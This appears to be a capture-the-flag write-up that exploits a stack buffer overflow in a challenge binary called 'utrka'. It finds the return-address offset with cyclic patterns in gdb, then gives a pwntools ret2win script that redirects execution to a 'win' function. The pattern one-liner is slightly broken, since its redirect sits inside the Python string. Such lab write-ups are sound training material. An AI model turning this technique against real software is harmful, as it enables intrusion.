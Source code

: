 ```c

    for (int i = 22; i < 23;i++){
        puts(trackLines[i]);
    }
}
```

Immediately we see that `fgets` reads input 3 times and each time it reads it, it takes 
up to 101 characters and puts them into `char progress[232]`, so taking 303 chars and putting them into a char array of 232, seems like a simple [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).

Let's run it in gdb and see what we get when we input a cyclic pattern of length 303.

Here's how we generate our cyclic pattern.
```sh
python -c "from pwn import *; print(cyclic(303).decode('utf-8')) > pattern"
```

Since the program does a little bit trolling and calls `system("clear")` it makes debugging it a little bit annoying if you don't know what you are doing. Thankfully, you can just run it like this and it should debug fine.

```bash
gdb utrka
set follow-fork-mode parent
r < pattern
```

This is the result we get:

![gdb output](https://i.imgur.com/goMMK98.png)

*Note: I am using [pwndbg](https://github.com/pwndbg/pwndbg) which is a modified version of gdb specifically made for exploit development. I highly recommend it as it's a much better experience than using regular old gdb.*


Here we can see on the last line that when it returns from main it tries to go to the address `0x6361617263616171` which is a part of our cyclic pattern, and we can find out exactly which part like this:
```bash
python -c "from pwn import *; print(cyclic_find(0x63616171))" 
264
```

We need to put 264 characters of padding before we can overwrite the return address. 


Now let's try to do a [ret2win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win).

```python
from pwn import *

elf = ELF('./utrka')

payload = b'A' * cyclic_find(0x63616171)
payload += p64(elf.symbols['win'])

p = process('./utrka')
p.sendline(payload)
p.interactive()
```
